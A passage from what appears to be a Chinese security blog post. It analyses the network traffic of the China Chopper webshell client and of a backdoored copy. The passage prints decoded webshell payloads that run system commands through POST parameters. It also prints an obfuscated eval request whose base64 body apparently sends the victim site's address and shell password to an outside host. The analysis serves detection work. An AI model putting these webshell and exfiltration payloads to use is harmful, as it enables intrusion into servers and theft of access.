 可以看到红色部分的代码经过 base64 以及 url 的编码，我们解码看看

解码的顺序依次为 url 解码，然后再 base64 解码，得到明文

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic2PwZ0Wias6sXXa8G2GQnKoicXO04qs2jiaDp4mjcyMNicCI8icgJozv0N6G30l0CpBhiahlZ7IZrrHKXgg/640?wx_fmt=png)

> z0=@ini\_set(“display\_errors”,”0”);@set\_time\_limit(0);@set\_magic\_quotes\_runtime(0);echo(“>|”);;$p=base64\_decode($\_POST\[“z1”\]);$s=base64\_decode($\_POST\[“z2”\]);$d=dirname($\_SERVER\[“SCRIPT\_FILENAME”\]);$c=substr($d,0,1)==”/“?”-c "{$s}"“:”/c "{$s}"“;$r=”{$p} {$c}”;@system($r.” 2>&1”,$ret);print ($ret!=0)?”ret={$ret}”:””;;echo(“|<-“);die();

> z1=cmd

> z2=cd /d “C:\\phpStudy\\PHPTutorial\\WWW"&netstat -an | find “ESTABLISHED”&echo \[S\]&cd&echo \[E\]

z1 的值是 cmd，

z2 的值是 cd /d “c:\\inetpub\\wwwroot\\”&whoami&echo \[S\]&cd&echo \[E\]。该操作的意思就是执行输入的 cmd 命令，列出当前用户与当前目录，执行结果如下所示

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic2PwZ0Wias6sXXa8G2GQnKoic7dQ3wJUtEZWGGZc37xc1CJVU4NA7I4ExXLicaS5nH3897ONiaFF6hCdw/640?wx_fmt=png)

我们输入其他的命令的话，当然也是可以通过同样的流程进行分析

以上就是中国菜刀的流量通信的特征

了解了正常的菜刀是如何工作的，接下来我们看看被植入恶意后门的菜刀是怎样的。

0x03 分析后门菜刀
===========

为了与前一个菜刀的分析流程进行区分，我们这一步特地选用了另外一个菜刀，使用另外一个抓包软件进行分析。

打开菜刀，启动抓包软件 WSockExpert，点击左上角的文件夹图标，选择 caidao.exe，点击 open 即可

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic2PwZ0Wias6sXXa8G2GQnKoicm6vgVXniaO18546EiaucouibuZTRnAfXeCjicUmDxtDibZDSmFbPumlezEw/640?wx_fmt=png)

然后使用带后门的菜刀连接 shell，连接虚拟终端执行命令

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic2PwZ0Wias6sXXa8G2GQnKoicqQks4uHCgH6Z8DtMX8BRq9xKjLbqiaf7KkXPqanzpej4csxIrjjKZUA/640?wx_fmt=png)

在 winsockExpert 中查看菜刀的通信数据

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic2PwZ0Wias6sXXa8G2GQnKoicL9qIh00YLvHoQFoQv1JUWDSicWROs613uk2haZCFLafU6s6jYrwpMnQ/640?wx_fmt=png)

> 注：由于没有在网上找到带有后门的菜刀，所以下面的数据都是参考网上带有后门菜刀的数据

完整的 post 内容是：

```
a=%24\_%3Dstrrev%28edoced\_46esab%29%3B%40eval%28%24\_%28%24\_POST%5Bz0%5D%29%29%3B&z0=QGV2YWwo
YmFzZTY0X2RlY29kZSgnYVdZb0pGOURUMDlMU1VWYkoweDVhMlVuWFNFOU1TbDdjMlYwWTI5dmEybGxLQ2RNZVd
0bEp5d3hLVHRBWm1sc1pTZ25hSFIwY0RvdkwzZDNkeTVuYjI5a1pHOW5MbWx1TDBGd2FTNXdhSEEvVlhKc1BTY3VKR
jlUUlZKV1JWSmJKMGhVVkZCZlNFOVRWQ2RkTGlSZlUwVlNWa1ZTV3lkU1JWRlZSVk5VWDFWU1NTZGRMaWNtVUdGem
N6MG5MbXRsZVNna1gxQlBVMVFwS1R0OScpKTtAaW5pX3NldCgiZGlzcGxheV9lcnJvcnMiLCIwIik7QHNldF90aW1lX2xp
bWl0KDApO0BzZXRfbWFnaWNfcXVvdGVzX3J1bnRpbWUoMCk7ZWNobygiLT58Iik7OyREPWRpcm5hbWUoJF9TRVJWR
VJbIlNDUklQVF9GSUxFTkFNRSJdKTtpZigkRD09IiIpJEQ9ZGlybmFtZSgkX1NFUlZFUlsiUEFUSF9UUkFOU0xBVEVEIl0pO
yRSPSJ7JER9XHQiO2lmKHN1YnN0cigkRCwwLDEpIT0iLyIpe2ZvcmVhY2gocmFuZ2UoIkEiLCJaIikgYXMgJEwpaWYoaX
NfZGlyKCJ7JEx9OiIpKSRSLj0ieyRMfToiO30kUi49Ilx0IjskdT0oZnVuY3Rpb25fZXhpc3RzKCdwb3NpeF9nZXRlZ2lkJykpP
0Bwb3NpeF9nZXRwd3VpZChAcG9zaXhfZ2V0ZXVpZCgpKTonJzskdXNyPSgkdSk%2FJHVbJ25hbWUnXTpAZ2V0X2N1cn
JlbnRfdXNlcigpOyRSLj1waHBfdW5hbWUoKTskUi49Iih7JHVzcn0pIjtwcmludCAkUjs7ZWNobygifDwtIik7ZGllKCk7
```
